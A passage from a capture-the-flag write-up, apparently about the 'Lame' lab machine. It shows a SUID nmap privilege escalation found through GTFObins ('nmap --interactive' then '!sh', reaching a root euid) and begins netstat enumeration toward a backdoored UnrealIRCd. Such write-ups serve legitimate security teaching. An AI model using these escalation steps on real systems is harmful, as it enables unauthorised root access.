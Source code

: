 I could research each of them, but I know from experience the `nmap` is useful to me.

#### GTFObins

To research a SUID or `sudo` binary, my first stop is always [GTFObins](https://gtfobins.github.io/). `nmap` is in there:

![image-20200407150606186](https://0xdfimages.gitlab.io/img/image-20200407150606186.png)

Clicking on the nmap link, it two ways to get a shell out of `nmap`:

![image-20200407150723364](https://0xdfimages.gitlab.io/img/image-20200407150723364.png)

#### Shell

The second work works great here (note the `euid` of root):

```

daemon@lame:/$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)

```

### Backdoored UnrealIRCd

Edited to add: [\_r518](https://twitter.com/_r518) pointed out another local privesc, UnrealIRCd. Given that this seems to be the Metasploitable VM, there’s probably even more, but I figured I’d add at least this one.

#### Enumeration

If I run a `netstat` on the box to see listening services, there are a bunch, but 6697 jumps out as IRC over SSL:

```

daemon@lame:/tmp$ netstat -tnlp                                                                                                                     
(Not all processes could be identified, non-owned process info                                                                                      
 will not be shown, you would have to be root to see it all.)                                                                                       
Active Internet connections (only servers)                                                                                                          Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name                                                    tcp        0      0 0.0.0.0:512             0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:513             0.0.0.0:*               LISTEN      -                                                                   
tcp        0      0 0.0.0.0:2049            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:514             0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:44007           0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:6697            0.0.0.0:*               LISTEN      -                                                                   
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:6667            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:5900            0.0.0.0:*               LISTEN      -                                                                   
```